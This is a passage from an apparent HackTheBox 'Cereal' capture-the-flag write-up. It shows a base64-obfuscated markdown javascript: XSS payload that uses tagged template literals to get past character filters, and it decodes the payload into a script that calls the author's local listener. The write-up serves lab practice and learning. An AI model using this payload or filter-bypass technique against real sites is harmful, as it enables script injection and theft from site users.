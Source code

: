 My next payload is a bit tricky to understand. I used
```js
[XSS](javascript:let x = atob`PHNjcmlwdD52YXIgeGh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3Q7eGh0dHAub3BlbigiR0VUIiwgImh0dHA6Ly8xMjcuMC4wLjE6ODAwMC9UZXN0WFNTLzM5IiwgdHJ1ZSk7eGh0dHAuc2VuZGBgOzwvc2NyaXB0Pg==`;
document.write`${x}`;)
``` 
where the base64 encoded payload represents
```javascript
<script>var xhttp = new XMLHttpRequest;xhttp.open("GET", "http://127.0.0.1:8000/TestXSS/39", true);xhttp.send``;</script> 
 ```
Next, I visited the admin page, removed `target=_blank`{:style="color:orange"} and clicked on the payload, and got a response in my listener confirming that a payload structured like this will bypass all the symbols restrictions and stuff

![38](/assets/images/HTB/Cereal/38.png)

One weird thing that i struggled to understand is  how ``document.write`${x}` ``{:style="color:orange"} works, because `${x}`{:style="color:orange"} is passed as a second argument, and that makes the argument passed to it to be blank in this case

![39](/assets/images/HTB/Cereal/39.png)

Since tagged template literals pass an array of the raw non-template stuff, i thought I'll face some issues with `` eval`payload` ``{:style="color:orange"} and indeed i did, but trying out `document.write`{:style="color:orange"} instead of `eval`{:style="color:orange"}, it does actually appear to work.

One other weird thing is that the behavior is different if you try `document.write(${x})`{:style="color:orange"} instead of `` document.write`${x}` ``{:style="color:orange"}, but that actually makes sense since doing `` document.write`${x}` ``{:style="color:orange"} is the same as doing ``document.write(["", ""], x)``{:style="color:orange"}
